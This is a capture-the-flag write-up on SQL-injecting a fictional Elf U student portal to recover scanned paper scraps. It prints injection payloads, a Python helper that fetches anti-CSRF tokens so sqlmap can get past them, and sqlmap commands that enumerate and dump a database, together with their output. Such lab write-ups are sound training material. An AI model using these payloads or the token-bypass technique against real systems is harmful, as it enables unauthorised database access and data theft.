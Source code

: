 9) Retrieve Scraps of Paper from Server
=======================================
Challenge
---------
Difficulty: 4/5 

Gain access to the data on the Student Portal server and retrieve the paper scraps hosted there. What is the name of Santa's cutting-edge sleigh guidance system? For hints on achieving this objective, please visit the dorm and talk with Pepper Minstix.

Answer
------
**Super Sled-o-matic**

Solution
--------
1. Discovery
^^^^^^^^^^^^
The following dialog with Krampus indicated that we were looking for information about Krampus.

    As for those scraps of paper, I scanned those and put the images on my server.
    I then threw the paper away.
    Unfortunately, I managed to lock out my account on the server.
    Hey! You’ve got some great skills. Would you please hack into my system and retrieve the scans?

We also had the following dialog from Pepper Minstix:

    Have you had any luck retrieving scraps of paper from the Elf U server?
    You might want to look into SQL injection techniques.
    OWASP is always a good resource for web attacks.
    For blind SQLi, I've heard Sqlmap is a great tool.
    In certain circumstances though, you need custom tamper scripts to get things going!

Pepper Minstix also provided with a link to a blog post titled `SQLMap Tamper Scripts for The Win <https://pen-testing.sans.org/blog/2017/10/13/sqlmap-tamper-scripts-for-the-win>`_

The hint from Pepper Minstix was useful because it showed that SQLMap would be helpful for solving the challenge. It also hinted that we may have to perform some customisations with SQLMap to defeat protection mechanisms. 

1.1. Starting artefacts
"""""""""""""""""""""""
* `Student Portal <https://studentportal.elfu.org/>`_

1.2. Initial investigations with Chrome
"""""""""""""""""""""""""""""""""""""""
The student had two pages which accepted user input and could possibly be exploited:

* Apply Now page
* Check Application Status page

1.2.1. Apply Now page
+++++++++++++++++++++
The **Apply Now** page consisted of an application form to study at Elf U with various user submitted fields.

The form has some checks for user input for fields such as the email address. However these checks are client-side and can easily be circumvented by modifying the relevant DOM elements. In this case you can change the ``type="email"`` attribute to ``type="text"``.

The form is submitted using a POST request. Typical form data looked something like:

.. code-block::

    name=1&elfmail=test%40test.com&program=1&phone=1&whyme=1&essay=1&token=MTAxMDQwMTI2MzM2MTU3ODc1MTk3NDEwMTA0MDEyNi4zMzY%3D_MTI5MzMxMzYxNzEwMDgzMjMzMjg0MDQyLjc1Mg%3D%3D

An interesting thing we noticed was that if you submit an application with an identical email field twice, you receive the following error:

.. code-block::

    Error: INSERT INTO applications (name, elfmail, program, phone, whyme, essay, status) VALUES ('1', '1', '1', '1', '1', '1', 'pending') Duplicate entry '1' for key 'elfmail'

The column names in the INSERT statement are the same as the fields used in the above POST request.

If we try injecting some SQL that is illegal, we obtain an error message the the DBMS is MariaDB.

We decided to attempt an inband XPATH injection in the "First Name" input box. The contents of **First Name** should be ``1', '1', 'test@test.com' or updatexml(1,concat(0x7e,(database())),0) or '','1','1','1','pending'); #``. The remaining fields can be anything that passes the client-side filters (e.g. enter something like **test@test.com** for the Email field). The following information is returned showing that the database name is **elfu**

.. code-block::

    Error: INSERT INTO applications (name, elfmail, program, phone, whyme, essay, status) VALUES ('1', '1', 'test@test.com' or updatexml(1,concat(0x7e,(database())),0) or '','1','1','1','pending'); #', 'test@test.com', '1', '1', '1', '1', 'pending')
    XPATH syntax error: '~elfu'

Performing inband injections based on INSERT quickly became tedious and we decided to take a look at the other page.

1.2.2. Check Application Status page
++++++++++++++++++++++++++++++++++++
The **Check Application Status** page consisted of a form with a single Email field from which you could check your application status.

The form was submitted as a GET request. A typical URL looked something like:

.. code-block::

    https://studentportal.elfu.org/application-check.php?elfmail=test%40test.com&token=MTAxMDQwMTE5Mjk2MTU3ODc1MTg2NDEwMTA0MDExOS4yOTY%3D_MTI5MzMxMzUyNjk4ODgzMjMzMjgzODE3LjQ3Mg%3D%3D

The form has some checks for user input for fields such as the email address. However these checks are client-side and can easily be circumvented by modifying the relevant DOM elements. In this case you can change the ``type="email"`` attribute to ``type="text"``.

Peforming an invalid inband injection such as ``';SELECT * FROM applications;#`` returns the following error:

.. code-block::

    Error: SELECT status FROM applications WHERE elfmail = '';SELECT * FROM applications;#';
    You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'SELECT * FROM applications;#'' at line 1

Exploiting a SELECT query to return data is simpler than using an INSERT query so we decided to concentrate our efforts on this page. 

1.2.3. Token protection
+++++++++++++++++++++++
Both pages that we looked at so far employed a token to protect against automated requests. This also made it more difficult to use an automated tool such as SQLMap.

Before any of the forms was submitted, the code would make a request to https://studentportal.elfu.org/validator.php. A token would be returned in the body of the response. This token would then be submitted as one of the fields during form submission.

.. note::
    With this token protection, performing inband SQL injections works because the form would request the appropriate token.

2. Solving the challenge
^^^^^^^^^^^^^^^^^^^^^^^^
2.1. Modifying SQLmap
"""""""""""""""""""""
SQLMap is a open source penetration testing tool written in Python that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers.

To use SQLMap with the Student Portal, we needed to find a way to defeat the token protection. The hints described a possible way of doing this was to utilise the tamper functionality and write a custom module. We found the instructions for doing this a bit finicky, and instead chose to use the ``--eval`` option. This option evaluates the provided Python code before each request.

As shown below, we wrote a simple Python script (validate.py) that we placed in the same directory as the SQLMap tool.

.. code-block:: python

    import requests
    def getToken():
        url = 'https://studentportal.elfu.org/validator.php'
        response = requests.get(url)
        token = response.text
        return token

.. note::
    This module has a dependency on the **requests** library which can be installed using something like ``pip install requests``.

To run SQLMap we need to use something like the following:

.. code-block::

    python sqlmap.py -u "https://studentportal.elfu.org/application-check.php?elfmail=test&token=" --eval="import validate;token=validate.getToken()" -v 3

.. note::
    During the automated testing you may get a prompt about 'token' holding a anti-CSRF token. We **do not** want SQLMap to automatically update this token in further requests.

Running the above analysis returns the following as shows that this page is exploitable.

.. code-block::

    sqlmap resumed the following injection point(s) from stored session:
    ---
    Parameter: elfmail (GET)
        Type: boolean-based blind
        Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
        Payload: elfmail=test' OR NOT 9290=9290#&token=
        Vector: OR NOT [INFERENCE]#

        Type: error-based
        Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
        Payload: elfmail=test' OR (SELECT 4443 FROM(SELECT COUNT(*),CONCAT(0x7178717671,(SELECT (ELT(4443=4443,1))),0x7170786271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- XAHQ&token=
        Vector: OR (SELECT [RANDNUM] FROM(SELECT COUNT(*),CONCAT('[DELIMITER_START]',([QUERY]),'[DELIMITER_STOP]',FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

        Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: elfmail=test' AND (SELECT 8445 FROM (SELECT(SLEEP(5)))EOvD)-- yTjJ&token=
        Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
    ---

2.2. Retrieving the needed information from the database
""""""""""""""""""""""""""""""""""""""""""""""""""""""""
We used the following commands to obtain information about the paper scraps. The output has been truncated to show only information of interest.

2.2.1. List databases
+++++++++++++++++++++
.. code-block::

    python sqlmap.py -u "https://studentportal.elfu.org/application-check.php?elfmail=test&token=" --eval="import validate;token=validate.getToken()" --dbs

    available databases [2]:
    [*] elfu
    [*] information_schema

2.2.2. List tables
++++++++++++++++++
.. code-block::

    python sqlmap.py -u "https://studentportal.elfu.org/application-check.php?elfmail=test&token=" --eval="import validate;token=validate.getToken()" --tables

    Database: elfu
    [3 tables]
    +---------------------------------------+
    | applications                          |
    | krampus                               |
    | students                              |
    +---------------------------------------+

    Database: information_schema
    [78 tables]

2.2.3. Dump the krampus table
+++++++++++++++++++++++++++++
.. code-block::

    python sqlmap.py -u "https://studentportal.elfu.org/application-check.php?elfmail=test&token=" --eval="import validate;token=validate.getToken()" --dump -T krampus

    Database: elfu
    Table: krampus
    [6 entries]
    +----+-----------------------+
    | id | path                  |
    +----+-----------------------+
    | 1  | /krampus/0f5f510e.png |
    | 2  | /krampus/1cc7e121.png |
    | 3  | /krampus/439f15e6.png |
    | 4  | /krampus/667d6896.png |
    | 5  | /krampus/adb798ca.png |
    | 6  | /krampus/ba417715.png |
    +----+-----------------------+

2.3. Reconstructing the paper scraps
""""""""""""""""""""""""""""""""""""
We found information about 6 paper scraps in the previous section. To retrieve the scraps we had to simply append the path to **https://studentportal.elfu.org**

After downloading the images, we pasted them into an image editor and aligned the scraps to form the following document (one piece seems to be missing).

.. image:: /images/o9-scraps.png

The name of Santa's cutting-edge sleigh guidance system is **Super Sled-o-matic**